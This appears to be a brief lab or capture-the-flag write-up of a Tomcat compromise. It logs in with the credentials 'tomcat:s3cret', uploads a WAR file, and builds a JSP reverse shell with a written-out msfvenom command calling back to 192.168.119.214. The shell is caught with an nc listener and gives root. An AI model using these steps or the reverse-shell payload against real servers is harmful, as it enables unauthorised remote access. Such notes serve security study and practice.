


Attack Vector 2

Logged in with tomcat:s3cret

Notice that you can upload war files

Make a shell via msfvenom
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.214 LPORT=5678 war > shell.war`

Start an nc listener

We have a shell on the nc listener

Check who you are... you're root!

Get a better shell

